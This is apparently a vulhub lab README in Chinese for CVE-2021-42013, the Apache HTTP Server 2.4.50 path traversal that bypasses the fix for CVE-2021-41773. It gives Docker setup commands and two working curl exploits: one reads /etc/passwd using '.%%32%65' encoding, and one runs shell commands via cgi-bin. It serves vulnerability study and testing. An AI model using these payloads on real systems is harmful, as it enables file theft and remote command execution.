

# Apache HTTP Server 2.4.50 路径穿越漏洞（CVE-2021-42013）

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞[CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。

参考链接：

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024

## 漏洞环境

执行如下命令编译及运行一个存在漏洞的Apache HTTP Server 2.4.50版本服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Apache默认的`It works!`页面。

## 漏洞利用

我们使用[CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)中的Payload已经无法成功利用漏洞了，说明2.4.50进行了修复。

但我们可以使用`.%%32%65`进行绕过（注意其中的`/icons/`必须是一个存在且可访问的目录）：

```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

可见，成功读取到`/etc/passwd`：



在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```


